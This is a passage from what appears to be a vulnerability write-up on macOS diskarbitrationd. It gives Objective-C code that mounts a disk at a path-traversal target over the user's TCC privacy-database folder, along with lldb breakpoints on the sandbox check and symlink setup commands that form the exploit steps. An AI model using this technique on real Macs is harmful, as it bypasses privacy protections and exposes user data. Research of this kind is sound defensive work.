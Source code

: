 
### Explain 2

Let’s replicate **Explain 1** using a debugger.

```c
#import <DiskArbitration/DiskArbitration.h>
#import <Foundation/Foundation.h>

int main(void) {
    DASessionRef session = DASessionCreate(kCFAllocatorDefault);
    DADiskRef disk = DADiskCreateFromBSDName(kCFAllocatorDefault, session, "/dev/disk6s1");
    CFDictionaryRef properties;
    CFURLRef diskurl = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/dev/disk6s1"];
    CFURLRef url = (__bridge CFURLRef)[NSURL fileURLWithPath:@"/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC"];
    DADiskMount(disk, url, kDADiskMountOptionDefault, NULL, NULL);
    return 0;
}
```

The code above attempts to mount a disk at the path:

`/private/tmp/starthere/../../../Users/crab/Library/Application Support/com.apple.TCC`.

Compile the code, start debugging using `lldb`, and set the following breakpoints:

```bash
(lldb) breakpoint list
Current breakpoints:
1: name = 'realpath', locations = 1, resolved = 1, hit count = 0
  1.1: where = libsystem_c.dylib`realpath, address = 0x00000001921de874, resolved, hit count = 0 
2: name = 'DADiskMountWithArgumentsCommon', locations = 1, resolved = 1, hit count = 1
  2.1: where = DiskArbitration`DADiskMountWithArgumentsCommon, address = 0x000000019a1bdb48, resolved, hit count = 1 
3: address = DiskArbitration[0x0000000188325c1c], locations = 1, resolved = 1, hit count = 1
  3.1: where = DiskArbitration`DADiskMountWithArgumentsCommon + 212, address = 0x000000019a1bdc1c, resolved, hit count = 1 
4: name = '__DAQueueRequest', locations = 1, resolved = 1, hit count = 1
  4.1: where = DiskArbitration`__DAQueueRequest, address = 0x000000019a1bcde0, resolved, hit count = 1 
```

Attach `lldb` to the `diskarbitrationd` process and set a breakpoint for `sandbox_check_by_audit_token`:

```
(lldb) breakpoint list
Current breakpoints:
2: name = 'sandbox_check_by_audit_token', locations = 1, resolved = 1, hit count = 4
  2.1: where = libsystem_sandbox.dylib`sandbox_check_by_audit_token, address = 0x000000019d5a61cc, resolved, hit count = 4 
```

Prepare the required **symbolic links and directories**:

```
ln -s /private/tmp/deep/1/2 /private/tmp/starthere
mkdir -p "/private/tmp/Users/crab/Library/Application Support/com.apple.TCC/"
```

---